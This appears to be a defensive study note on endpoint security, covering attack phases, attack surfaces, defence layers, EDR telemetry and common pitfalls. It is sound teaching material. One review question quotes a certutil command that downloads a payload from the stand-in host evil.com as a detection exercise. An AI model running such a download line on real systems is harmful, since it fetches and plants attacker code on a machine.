

# 🖥️ Endpoint Security Overview

> [!abstract] TL;DR
> Endpoints — laptops, servers, mobile devices — are the primary target in over 70% of breaches. Endpoint security applies **defense-in-depth**: multiple overlapping layers (AV, EDR, DLP, HIPS, disk encryption) so that no single control failure leads to full compromise. The attacker follows a predictable kill chain from initial access through persistence, lateral movement, and exfiltration — and each phase is an opportunity for a detection or prevention control.

---

## Intuition — Analogy First

Think of an endpoint like a house. The **front door** is your perimeter (email gateway, web proxy). But if an attacker gets inside, you want layers: a burglar alarm (**HIPS**), a safe for valuables (**disk encryption**), cameras recording everything (**EDR telemetry**), motion sensors in each room (**behavioural detection**), and a deadbolt on the bedroom (**application control**). No single layer is perfect — a determined burglar may defeat any one of them. But bypassing all simultaneously is hard. That's defense-in-depth.

---

## How It Works

### Endpoint Attack Phases

```mermaid
graph LR
    IA["Initial Access\n(phishing, exploit,\nmalicious USB)"]
    EXEC["Execution\n(macro, script,\nbinary)"]
    PERSIST["Persistence\n(registry run key,\nscheduled task, service)"]
    PRIV["Privilege\nEscalation\n(UAC bypass,\nkernel exploit)"]
    EVADE["Defence\nEvasion\n(AV bypass,\nLOLBins)"]
    CRED["Credential\nAccess\n(Mimikatz,\nLSASS dump)"]
    DISCO["Discovery\n(net view,\nnltest)"]
    LATERAL["Lateral\nMovement\n(PsExec, WMI,\nRDP)"]
    EXFIL["Exfiltration\n(C2 channel,\ncloud upload)"]

    IA --> EXEC --> PERSIST --> PRIV --> EVADE --> CRED --> DISCO --> LATERAL --> EXFIL

    style IA fill:#e94560,color:#fff
    style EXFIL fill:#e94560,color:#fff
    style PERSIST fill:#f5a623,color:#111
    style LATERAL fill:#f5a623,color:#111
```

Each arrow is a detection opportunity. Modern EDR tools map detections to **MITRE ATT&CK** technique IDs (e.g., T1059 — Command and Scripting Interpreter).

---

### Endpoint Attack Surface

| Surface | Example Vectors | Common Exploits |
|---------|----------------|-----------------|
| **Browser** | Malicious ads, drive-by download, browser extensions | CVE-2024-xxxx (Chromium V8), malicious Chrome extensions |
| **Email client** | Phishing attachments (macro-enabled Office, PDF, HTML smuggling) | VBA macros, CVE Outlook zero-days |
| **USB/removable media** | Malicious USB drops, BadUSB, autorun abuse | HID attacks (Rubber Ducky), autorun.inf |
| **Software vulnerabilities** | Unpatched OS/apps, third-party libs | Log4Shell on endpoints running Java apps |
| **Credentials** | Weak passwords, credential reuse, keyloggers | Pass-the-Hash, Pass-the-Ticket |
| **Supply chain** | Trojanized software installers | SolarWinds SUNBURST-style installers |

---

### Defence Layers (Defense-in-Depth Stack)

| Layer | Technology | Prevents / Detects | Limitation |
|-------|-----------|-------------------|------------|
| **AV/NGAV** | CrowdStrike, Defender | Known malware, signature-based threats | Polymorphic malware evades signatures |
| **EDR** | SentinelOne, Carbon Black | Behavioural threats, LOLBins, fileless malware | Requires tuning; alert fatigue |
| **HIPS** | Built into most EDR | Exploit attempts, memory injection | Noisy at first; needs baseline |
| **DLP** | Symantec DLP, Purview | Data exfiltration, USB misuse | False positives on legitimate transfers |
| **Disk Encryption** | BitLocker, FileVault | Physical theft, offline attacks | No protection for live/logged-in sessions |
| **Application Control** | AppLocker, WDAC | Unapproved executables | High maintenance; LOLBins still permitted |

---

### Endpoint Telemetry for Threat Detection

Modern EDR agents collect process-level telemetry that feeds into both real-time alerting and retrospective threat hunting:

| Telemetry Type | What It Captures | ATT&CK Coverage |
|----------------|-----------------|-----------------|
| **Process creation** | Parent/child process tree, command line, hash | T1059 (scripting), T1055 (injection) |
| **Network connections** | Process → IP:port, DNS queries | T1071 (C2), T1041 (exfiltration) |
| **File system events** | Creates, modifies, deletes | T1074 (staging), T1486 (ransomware) |
| **Registry modifications** | Run keys, service installs | T1547 (persistence), T1112 |
| **Module loads** | DLL injections, unusual module load paths | T1574 (DLL hijacking) |
| **Memory events** | Process hollowing, shellcode injection | T1055 (process injection) |

---

## Real-World Notes

- The **SolarWinds supply chain attack (2020)** succeeded by compromising the software build pipeline — the malicious SUNBURST DLL arrived as a legitimate signed software update, bypassing AV signature scanning entirely. Only behavioural EDR (anomalous network beaconing from a trusted process) could have detected it.
- **Cobalt Strike beacon** is used in >60% of ransomware incidents (2023 Mandiant M-Trends). It runs entirely in memory (fileless), making disk-based AV detection ineffective. EDR memory scanning is required.
- **Living-off-the-land (LOLBins)** attacks use Windows-native binaries like `mshta.exe`, `certutil.exe`, `wscript.exe` — signed by Microsoft, whitelisted by AV — to execute attacker payloads. Application control rules must account for LOLBin abuse.

---

## Trade-offs

| Control | Effectiveness | Cost/Complexity | False Positive Risk | Attacker Bypass |
|---------|--------------|-----------------|--------------------|-----------------| 
| Signature AV | Low (modern threats) | Low | Low | Easy (polymorphism) |
| NGAV/ML AV | Medium | Medium | Medium | Harder |
| EDR (behavioural) | High | High | High (tuning needed) | Hardest |
| Application Allowlisting | Very High | Very High | High | LOLBins remain |
| Disk Encryption | High (physical theft) | Low | Very Low | N/A for live sessions |
| DLP | Medium | High | Very High | Steganography, encryption |

---

## When to Use vs Avoid

**Invest in EDR when:**
- You have a security team that can triage and respond to alerts (EDR without response = expensive noise).
- Your threat model includes sophisticated attackers, ransomware, or insider threats.
- You handle regulated data requiring detection capability evidence (SOC 2, ISO 27001).

**Don't rely solely on AV when:**
- Dealing with any post-2018 threat actor — signature AV alone is insufficient.
- You face advanced persistent threats (APTs) or targeted attacks.

---

## Common Pitfalls

1. **Deploy-and-forget EDR** — Installing EDR in "audit mode" or never acting on alerts provides a false sense of security. EDR requires active monitoring and response.
2. **No patching cadence** — The best EDR cannot compensate for an unpatched system. EternalBlue (MS17-010) was still exploiting unpatched systems *years* after the patch was available.
3. **Ignoring the supply chain** — SolarWinds, XZ Utils, and similar attacks show that endpoint controls focused only on attacker-controlled binaries miss trojanized trusted software.
4. **Disk encryption without key management** — BitLocker without TPM + PIN or AD key escrow provides weak protection. If the device auto-decrypts at boot without authentication, it's trivially bypassed.
5. **Over-tuning exclusions** — AV/EDR exclusions added for performance reasons (e.g., "exclude the entire Java folder") create blind spots attackers specifically target.

---

## Related Concepts

- [[Antivirus_and_EDR|→ Antivirus & EDR]] — AV/EDR technology deep dive
- [[OS_Hardening|→ OS Hardening]] — Windows/Linux hardening, CIS Benchmarks
- [[DLP_and_Data_Protection|→ DLP & Data Protection]] — preventing data exfiltration
- [[Application_Control_and_Allowlisting|→ Application Control]] — AppLocker, WDAC, SELinux
- [[MITRE_ATT_CK|← ATT&CK Framework]] — technique mapping for endpoint threats
- [[DFIR_Methodology|← DFIR]] — responding to endpoint compromise
- [[_MOC_Endpoint_Security|↑ Endpoint Security MOC]]

---

## Review Questions

1. An attacker uses `certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe` to download a payload. Which endpoint control is most likely to detect this, and why does signature AV likely miss it?
2. Explain why defense-in-depth matters for endpoints even when you have an EDR solution with a 99% detection rate.
3. Compare the telemetry value of process creation events vs. network connection events for detecting a command-and-control (C2) beacon. Which would you prioritise in a resource-constrained SIEM?

---

## Sources

- MITRE ATT&CK Enterprise Matrix: https://attack.mitre.org/matrices/enterprise/
- CIS Controls v8: https://www.cisecurity.org/controls/v8
- Mandiant M-Trends 2023: https://www.mandiant.com/m-trends
- NIST SP 800-83: Guide to Malware Incident Prevention and Handling

#Cybersecurity #EndpointSecurity #DefenceInDepth #EDR #Telemetry #endpoint
